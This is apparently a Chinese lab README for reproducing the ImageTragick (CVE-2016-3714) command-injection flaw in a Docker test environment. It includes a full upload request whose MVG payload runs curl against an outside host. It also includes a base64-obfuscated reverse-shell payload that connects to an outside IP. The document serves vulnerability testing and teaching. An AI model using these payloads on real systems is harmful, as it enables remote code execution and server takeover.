

# Imagetragick 命令执行漏洞（CVE-2016–3714）

详情见 https://imagetragick.com/ 和 https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html ，不再描述原理。

## 测试方法

一些测试使用的POC：https://github.com/ImageTragick/PoCs

编译及启动测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip/`可见有三个文件：

```bash
├── demo.php # 使用vul.jpg+identify命令测试 
├── upload.php # 支持用户进行上传，并将上传的文件传入PHP的imagick扩展，触发漏洞
└── vul.jpg # 一个简单的POC
```

首先访问`http://your-ip/demo.php`，命令并没有回显，但在docker容器中，已经成功得到`/tmp/success`文件：



再访问`http://your-ip/upload.php`测试，上传POC文件，数据包如下（**注意，我换了一个POC**）：

```
POST /upload.php HTTP/1.1
Host: your-ip
Content-Length: 321
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydGYwkOC91nnON1ws
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Connection: close

------WebKitFormBoundarydGYwkOC91nnON1ws
Content-Disposition: form-data; name="file_upload"; filename="vul.gif"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarydGYwkOC91nnON1ws--

```

可见，`www.leavesongs.com:8889`已经接收到http请求，说明curl命令执行成功：


反弹shell POC：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```


